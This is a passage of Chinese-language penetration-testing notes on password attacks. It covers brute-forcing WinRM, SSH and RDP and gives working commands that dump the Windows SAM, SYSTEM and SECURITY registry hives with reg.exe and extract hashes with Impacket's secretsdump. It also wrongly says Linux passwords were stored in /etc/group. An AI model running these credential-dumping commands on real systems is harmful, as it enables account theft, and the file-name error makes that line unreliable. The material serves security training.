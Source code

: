 在过去主要使用 /etc/group 文件来存储密码，该文件格式 ：

```shell
# 如果密码为 x , 表示密码存储在 /etc/shadow
用户名：密码：UID（用户ID）：GID（组ID）：描述性信息：主目录：默认Shell
```

### 2. Windows 身份验证

## 二、远程密码攻击

> 如果我们要通过网络管理 Windows 服务器，我们需要借助于 RDP、WinRM、SSH

### 1. WinRM

> 我们可以使用一些暴力破解工具，破解此服务密码 (eg: crackmapexec ) ，破解成功后使用 Evil-WinRM 进行登陆

### 2. SSH

> 可以使用一些暴力破解工具进行破解密码，然后登陆

### 3. RDP

## 三、Windows 本地密码攻击

### 1. 攻击 SAM

#### 1. 复制 SAM 注册表配置单元

| Registry Hive | 描述                    |
| ------------- | --------------------- |
| hklm\sam      | 包含和本地账号密码关联的哈希值       |
| hklm\system   | 包含系统引导密钥，用于加密 SAM 数据库 |
| hklm\security | 包含域账户的缓存凭据            |

#### 2. 使用 reg.exe 复制注册表配置单元并保存

```shell
# 需要管理员身份
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

> 保存完后使用文件传输相关的方法，传输副本到本地

#### 3. 使用 Impacket 的 secretsdump.py 转储哈希

```shell
# secretsdump 的第一步是先获得系统引导密钥
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
